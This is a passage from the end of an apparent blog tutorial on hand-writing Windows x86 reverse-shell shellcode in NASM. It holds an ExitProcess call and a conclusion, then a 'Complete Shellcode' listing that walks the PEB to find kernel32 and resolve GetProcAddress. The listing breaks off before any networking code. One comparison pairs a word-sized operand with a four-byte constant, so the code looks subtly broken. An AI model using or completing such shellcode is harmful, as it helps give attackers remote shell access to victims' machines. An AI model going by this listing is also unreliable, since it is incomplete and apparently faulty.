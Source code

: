 Actually calling the function isn't so hard now that we've already completed building those structs. I really liked the loop to push the NULLs to fill the structures out, I thought that was concise and clever. 

```nasm
; call ExitProcess
push ebx                             ; still null
call dword [esi + 0x10]
```

Finally we call `ExitProcess` which should be familiar from the last shellcode we created. 

## Conclusion
Thank you very much to the aformentioned resource authors, I really appreciate it! Learned a lot about the subtle differences between Windows and Linux when it comes to socket programming a reverse shell payload. Next we might explore a different way to find function addresses, x64 shellcoding, or some exploit development techniques, I'm not sure yet. All will be covered at some point though. Until next time, thanks for reading!

Our shellcode should be NULL-free and it came in around 370 bytes. I believe the msfvenom equivalent shellcode is somewhere around 335 bytes so we didn't do too much worse in our first shot, definitely some room for improvement I'm sure. 

## Complete Shellcode
```nasm
global_start


section .text
_start: 

xor ecx, ecx
mul ecx
mov eax, [fs:ecx + 0x30] 
mov eax, [eax + 0xc]     
mov esi, [eax + 0x14]    
lodsd                    
xchg eax, esi            
lodsd                    
mov ebx, [eax + 0x10]    
mov edi, [ebx + 0x3c]    
add edi, ebx             
mov edi, [edi + 0x78]    
add edi, ebx             
mov esi, [edi + 0x20]    
add esi, ebx             
xor ecx, ecx             

Get_Function:
 
inc ecx                              
lodsd                                
add eax, ebx                         
cmp dword [eax], 0x50746547          ; GetP
jnz Get_Function
cmp word [eax + 0xa], 0x73736572     ; ress
jnz Get_Function
mov esi, [edi + 0x24]                
add esi, ebx                           
mov cx, [esi + ecx * 2]              
dec ecx
mov esi, [edi + 0x1c]               
add esi, ebx                        
mov edi, [esi + ecx * 4]             
```